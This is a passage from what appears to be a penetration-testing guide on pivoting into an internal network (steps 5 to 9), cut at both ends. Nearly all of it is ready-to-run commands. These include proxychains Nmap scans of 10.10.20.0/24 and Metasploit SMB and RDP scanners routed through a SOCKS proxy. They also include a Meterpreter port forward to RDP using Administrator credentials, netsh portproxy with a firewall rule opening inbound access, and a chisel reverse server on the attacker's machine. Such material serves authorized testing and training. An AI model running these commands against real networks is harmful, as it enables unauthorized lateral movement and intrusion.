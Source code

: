 5) Scan the internal subnet via the pivot with Nmap (TCP connect)
```
# TCP connect scan (-sT) only; ICMP/ARP discovery won’t traverse SOCKS; use -Pn
proxychains -q nmap -sT -Pn -n -T3 -p 445,3389,80,443 10.10.20.0/24

# For service detection (slower through pivots):
proxychains -q nmap -sT -Pn -n -T2 -sV -p- 10.10.20.15
```

6) Use Metasploit scanners through the SOCKS proxy
```
# In msfconsole, set a global proxy so Ruby sockets go through SOCKS
setg Proxies socks5:127.0.0.1:1080
setg ConnectTimeout 10

use auxiliary/scanner/smb/smb_version
set RHOSTS 10.10.20.0/24
run

use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS 10.10.20.0/24
run
```

7) Forward a single remote port with Meterpreter (e.g., RDP on 3389)
```
# In meterpreter, forward remote 10.10.20.15:3389 to local 127.0.0.1:13389
portfwd add -L 127.0.0.1 -l 13389 -p 3389 -r 10.10.20.15

# Then connect locally with your tool
xfreerdp /v:127.0.0.1:13389 /u:Administrator /p:P@ssw0rd
# or: rdesktop 127.0.0.1:13389
```

8) Windows-native port forwarding with netsh portproxy (no Metasploit)
```
# Forward pivot host TCP 8080 to internal 10.10.20.50:80
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8080 connectaddress=10.10.20.50 connectport=80

# Allow inbound on Windows Defender Firewall
netsh advfirewall firewall add rule name="PortProxy 8080->10.10.20.50:80" dir=in action=allow protocol=TCP localport=8080

# Verify and remove if needed
netsh interface portproxy show all
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=8080
```

9) Alternative: chisel reverse SOCKS/port forward (when Meterpreter is not viable)

- On attacker (Kali):
```
# Start a chisel server that accepts reverse connections
./chisel server --reverse -p 8000
```
